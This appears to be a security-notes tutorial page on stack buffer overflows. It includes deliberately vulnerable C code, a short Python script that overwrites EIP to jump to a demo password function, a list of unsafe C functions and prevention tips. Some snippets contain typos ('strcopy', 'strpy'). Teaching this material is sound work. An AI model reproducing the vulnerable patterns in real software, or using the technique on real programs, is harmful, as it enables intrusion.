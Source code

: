 ```yaml
---
description: Explanation of address manipulation
---
```


# Buffer Overflow

## How it Works

Buffer overflows are vulnerabilities within programs that can lead to RCE and crashing of whatever program we are running.&#x20;

The term **buffer** is used to refer to any area in memory where more than one piece of data is stored. **Overflow** is when we try to fill more data than the buffer can handle. For example, if we allocate 40 bytes of memory to store 10 integers, with 4 bytes per integer, and we send 11 integers, whatever was in the 4 byte slot after the 10th slot of memory would be overwritten as the 11th integer.

Sometimes, the program would crash totally if given too much to process with a **segmentation fault**.&#x20;

We can analyse this code snippet here:

```c
int main(int argc, char *argv[]){
    argv[1] = (char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    char buffer[10];
    strcopy(buffer, argv[1], sizeof(buffer));
    return 0;
}
```

The `buffer` variable is an array that can store up to 10 characters, however we have overflown that with our `strcopy` function because there are more than 10 characters being loaded into it.

Within the stack, this is what the program would store normally:

<figure><img src="../../.gitbook/assets/image (91) (2).png" alt=""><figcaption></figcaption></figure>

Should we overflow the buffer variable, this would **overwrite the EBP and EIP**. The return address of the function thus changes.

<figure><img src="../../.gitbook/assets/image (14) (3) (2).png" alt=""><figcaption></figcaption></figure>

So when the program returns from the function, and the **epilogue** of the function tries to set the return address, it would set it as the string of 'A' instead. Thus, this crashes the program as it cannot return to normal execution flow.&#x20;

### Exploitation

We can analyse another snippet of code to see how **we can manipulate the EIP to return to another address.** Suppose for this case there are no security measures in place.

```cpp
#include <iostream>
#include <cstring>

int bf_overflow(char *str){
    char buffer[10];
    strpy(buffer, str);
    return 0;
}

int good_password(){
    printf("Valid password supplied\n");
}

int main(int argc, char *argv[]){
    int password = 0;
    bf_overflow(argv[1]);
    if (password == 1){
        good_password();
    }
    else {
    printf("Invalid Password\n");
    }
    printf("Quitting\n");
    return 0;
}
```

This bit of code here has a function that would otherwise not be able to be exploited. However, it seems to take an input, seeing as it passes arguments to the function.&#x20;

The buffer in this case is 10 characters, and we first need to find the exact number of characters used to **overwrite the EIP**.&#x20;

First we would need to find the number of characters needed to **crash the program**. For this program, when tested, should take 26 characters before crashing. This means that we need **22 garbage characters to overflow the buffer, and the next 4 would be the EIP itself**.

When we decompile the binary for this program, we get something like this:

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

So the `good_password()` function is at `0x00401548`. This means that our payload would be 22 characters and the address of the function appended at the back.

We can write a basic script to automate this.

```python
import sys
import os
payload = "\x41" * 22
payload += "\x48\x15\x40" # take note of endianness! reverse addresses if needed
# most of the time we do not include null bytes (\x00) which can cause corruption of memory
command = "goodpwd.exe %s" %(payload)

os.system(command)
```

When executed, this would overflow the buffer, and print the good password output.&#x20;

## Vulnerable Functions

In C, there are a lot of functions that are vulnerable to buffer overflows. The common occurrence between these functions is that **they do not have input validation or length verification**. Anyone can key in an absurdly long input and force the program to process it, which would allow for BOF to take place.

For example, we can compare the `fgets()` and `gets()` function in C. Both of which take user input and do something with it. Here's some documentation for the functions:

```c
char *fgets(char *str, int n, FILE *stream)
char *gets(char *str)
```

The `fgets()` function takes one `int n` variable, which represents the **length of the input it receives**. `gets()` on the other hand, simply takes a string in without length validation. Because one checks for length, it is **more secure** than the other. `gets()` is rather notorious for buffer overflow exploits, whereas `fgets()` is more secure **but not invulnerable**. It is still exploitable if it is used incorrectly!

Here are a list of functions that I look out for when decompiling binaries to view the code:

```
strcpy
strcat
gets
fgets
scanf
fscanf
vsprintf
printf
memcpy
```

If the length of an input is not validated properly using these functions, it would indicate that it could be vulnerable to BOF as we are able to overflow something and exploit the program.&#x20;

Apart from these functions, when looking out for BOF, we should take note of any **user-controlled input that is not sanitised and passed to a program**. In general, if we see something that isn't checked for length, it could be vulnerable, and **it is not limited to these few functions**.&#x20;

In general, to avoid BOF:

1. Check user input, make sure that the length is validated. If we accept 50 characters, then make sure the length is 50.
2. If user input is passed anywhere, ensure that there are checks in the length of input.
3. Only allow alphanumeric characters. Attackers can sometimes exploit the fact that **only length is being validated and not size**. BOF can (technically) happen using unicode characters, which contain up to 4 bytes per character.&#x20;
